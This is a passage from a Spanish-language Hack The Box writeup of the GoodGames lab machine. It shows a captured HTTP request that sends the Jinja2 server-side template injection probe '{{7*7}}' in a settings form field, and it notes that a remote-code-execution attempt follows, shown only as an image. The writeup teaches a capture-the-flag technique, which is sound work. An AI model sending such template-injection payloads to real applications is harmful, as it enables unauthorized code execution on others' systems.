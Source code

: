 ```
POST /settings HTTP/1.1
Host: internal-administration.goodgames.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://internal-administration.goodgames.htb
Connection: keep-alive
Referer: http://internal-administration.goodgames.htb/settings
Cookie: session=.eJwljjtqBTEMAO_iOoUl2frsZRbLlkgIJLCfKuTub-GVM83MX9nziPOzbNdxx0fZv1bZipKvsZhIqampV8KFQJBNwNAHkctwcq0yI7zJRHM2a6w0wFtAWvPBIcANx-SBKMFdpAc4EIMF8ByhAtglclbxniHVUtSkPCP3Gcf7Bh6c55H79fsdP48gY4Yn0Ss2c09zEtIEnACr60qzmmpe_l9VZT34.Z5pGiQ.bPlK4zFkG7YSTe5k_dNkiz-txIY
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name={{7*7}}
```

![/assets/img/writeups/goodgames/htb-writeup-goodgames-3.png](/assets/img/writeups/goodgames/htb-writeup-goodgames-3.png)

Con esto podemos identificar la plantilla jinja2. Ya que este cálculo matemático es típico de una vulnerabilidad SSTI en el motor de platilla Jinja2.

A continuación intentamos ejecutar un RCE (Remote Code Execution):

![/assets/img/writeups/goodgames/htb-writeup-goodgames-2.png](/assets/img/writeups/goodgames/htb-writeup-goodgames-2.png)
